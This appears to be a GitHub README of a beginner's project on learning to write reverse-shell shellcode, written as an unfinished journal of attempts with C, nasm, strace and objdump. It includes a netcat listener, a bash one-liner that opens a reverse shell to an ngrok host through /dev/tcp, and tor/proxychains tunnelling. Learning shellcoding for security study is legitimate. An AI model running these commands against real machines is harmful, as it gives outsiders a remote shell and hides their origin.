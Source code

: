 # shell-noob

I'm a shell noob, so nothing exciting here.

I'm also new to asm and C, but hey, I'm sure I've done tricker stuff before (famous last words).




## Starting

So I started reading a neat little writeup on how to reverse shell bind from shellcode, how to extract the shellcode and create a runnner.

I'm new to this so it seemed to cover most of the basic concepts to get started, so I jumped in.

https://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat




## The problem

The article shows a popular reverse bind with netcat, but I have the BSD variant installed on my rig - which has the `-e` flag removed for obvious security reasons.

But that's fine, more than this being a copy/paste exercise, I decided to see if I could reverse engineer my findings and apply an alternative shellcode.




## The alternative

I use ngrok to reverse proxy my ports to the outside world.
```
tor service start
proxychains ngrok tcp 31337
```

Create an open port to receive the reverse shell.
```
nc -n -vv -l -p 31337
```

Now kick off the reverse shell.
```
/bin/bash -c "/bin/bash -i >& /dev/tcp/0.tcp.ngrok.io/12345 0>&1"
```

Everything works fine... let's continue.




## Is injecting bash as a string possible in C?

After some initial googling I found it may not be possible to bind to /dev/tcp/x [1], as this is being done with some "magic bash"...

I might be able to fix this [3] by using execvp instead, just a wrapper for exec.

And it worked - reverse shell!




## Getting to assembly from C

This is the part I feared the most. I've zero experience with asm, the alternative syntax, debugging.
If this part goes wrong...

### Attempt 1 (a shortcut?)
Now I need to convert this to asm, so as per [2] I used `strace`;

```
strace -e execve ./bin/shellcode                      
execve("./bin/shellcode", ["./bin/shellcode"], [/* 120 vars */]) = 0
execve("/bin/bash", ["/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/0.tcp.e"...], [/* 120 vars */]) = 0
/bin/bash: connect: Connection refused
/bin/bash: /dev/tcp/0.tcp.ngrok.io/12345: Connection refused
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=19295, si_uid=1000, si_status=1, si_utime=0, si_stime=0} ---
```
I can't see this working for me just yet...

### Attempt 2
Looking back at the original tutorial and code [4], I'm thinking I could do the same with my custom line, and just call execve.

Now I attempt to compile with the nasm utility;

```
nasm -felf32 -o ./bin/shell-code.o ./shell-code.asm
```
Unfortunately this didn't run, there must be errors... I now work towards turning this in to a "hello world" example.

### Attempt 3
Followed a SO, so going to try this... 
```
gcc -S input.c -o output.asm -masm=intel
```
Nope, did not work for me - [5] there are fundamental differences between NASM and TASM [6].

### Attempt 4

So after some googling I ended up at this SO;
https://stackoverflow.com/questions/23204884/execv-example-is-segfaulting

It turns out that asm can't be run directly, but due to lack of "section" scaffolding, I'm starting to realize that this may be run inline (stack) vs executed as a program?

The post leads me to this resource;
http://www.safemode.org/files/zillion/shellcode/doc/Writing_shellcode.html

The code looks very similar, except for a `BITS 32` declaration at the top of each example.

I will go with the _known_-working examples that spawn a `sh` shell locally

## Getting to Opcode from assembly

I'm using zsh so the original example threw me out a little, I made a quick fix...
```
for i in $(objdump -d ./bin/shell-code.o -M intel |grep "^ " |cut -f2); do echo -n '\\x'$i; done; echo
```

## Placing the Opcode in to a runner 

Lorem ipsum...


[1] https://stackoverflow.com/questions/44914538/execute-reverse-shell-using-execve

[2] http://www.arti-sec.com/article/create-shellcode-tcp-reverse-shell-slae

[3] https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp

[4] https://gist.githubusercontent.com/Morgawr/9852347/raw/37fafdbfab6684d4fb374c826a2c1bc628cbe2b0/netcat-shellcode.asm

[5] https://stackoverflow.com/questions/8406188/does-gcc-really-know-how-to-output-nasm-assembly

[6] https://stackoverflow.com/questions/137038/how-do-you-get-assembler-output-from-c-c-source-in-gcc


## Other

Some notes on building, 

### Building

```
gcc ./shell-code.c -o ./bin/shellcode
```

### The runner

It seems that many shellcode tutorials use a common program template or husk to run the shellcode / bytearray.

I've included this in `templates/`.



## Resources

Some good resources for beginning this.

The original post that got me thinking;
https://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat

### Introductions to shellcoding
http://hackerforhire.com.au/part-1-disassembling-and-understanding-shellcode/
https://en.wikipedia.org/wiki/Shellcode
http://www.enderunix.org/docs/en/sc-en.txt
http://www.vividmachines.com/shellcode/shellcode.html
https://pentesterslife.blog/2017/11/01/x86_64-tcp-bind-shellcode-with-basic-authentication-on-linux-systems/

### Dealing with bash -c
https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp
https://stackoverflow.com/questions/36022331/bash-i-dev-tcp-127-0-0-1-1234-01
https://stackoverflow.com/questions/16091382/pass-arguments-to-execve-program-in-shellcode

### Reversing shellcode to assembly
https://xorl.wordpress.com/2009/01/04/from-shellcode-to-assembly/
https://zeltser.com/convert-shellcode-to-assembly/
https://haiderm.com/convert-hex-assembly-using-simple-python-script/

### Tools
https://github.com/reyammer/shellnoob

### Other / miscellaneous

https://pentesterslife.blog/2017/11/01/x86_64-tcp-bind-shellcode-with-basic-authentication-on-linux-systems/
https://brennan.io/2015/01/16/write-a-shell-in-c/


